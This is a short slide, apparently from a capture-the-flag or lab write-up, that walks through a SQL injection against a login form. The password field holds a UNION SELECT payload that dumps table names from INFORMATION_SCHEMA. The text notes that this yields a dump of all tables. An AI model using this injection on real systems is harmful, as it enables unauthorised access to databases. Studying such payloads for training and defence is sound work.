

# Thought Process and Solution
Remember to peek at the source if you want to see the command you are building.
Username: newb
Password: ' UNION SELECT TABLE_NAME, 0 FROM INFORMATION_SCHEMA.TABLES;#
We get a dump of all of the tables within the schema.